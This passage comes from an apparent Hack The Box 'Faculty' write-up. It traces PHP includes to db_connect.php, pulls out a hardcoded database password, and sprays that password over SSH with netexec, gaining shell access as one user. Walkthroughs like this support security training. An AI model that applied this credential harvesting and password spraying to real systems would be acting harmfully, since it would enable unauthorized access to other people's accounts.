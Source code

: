 #### File Enumeration

`ajax.php` seemed pretty important, as it handled all the login and navigation requests from the web application. Let's look at that.

```php
<?php
ob_start();
$action = $_GET['action'];
include 'admin_class.php';
$crud = new Action();
if($action == 'login'){
        $login = $crud->login();
        if($login)
                echo $login;
}
[--snip--]
```

Not much in there, but I bet `admin_class.php` might have some interesting info. Let's take a look.

```php
<?php
session_start();
ini_set('display_errors', 1);
Class Action {
        private $db;

        public function __construct() {
                ob_start();
        include 'db_connect.php';
[--snip--]
```

Now we're starting to see files that we know usually contain usernames and passwords. Third time's a charm, let's check out `db_connect.php`.

```php
<?php 

$conn= new mysqli('localhost','sched','Co.met06aci.dly53ro.per','scheduling_db')or die("Could not connect to mysql".mysqli_error($con));
```

Credentials! `sched:Co.met06aci.dly53ro.per`

### Pass the Password

```sh
┌──(pl4stic㉿kali)-[~/htb/faculty]
└─$ netexec ssh faculty.htb -u users.txt -p 'Co.met06aci.dly53ro.per' --continue-on-success
SSH   10.129.227.208  22  faculty.htb  [*] SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
SSH   10.129.227.208  22  faculty.htb  [-] root:Co.met06aci.dly53ro.per
SSH   10.129.227.208  22  faculty.htb  [-] developer:Co.met06aci.dly53ro.per
SSH   10.129.227.208  22  faculty.htb  [+] gbyolo:Co.met06aci.dly53ro.per  Linux - Shell access!
```
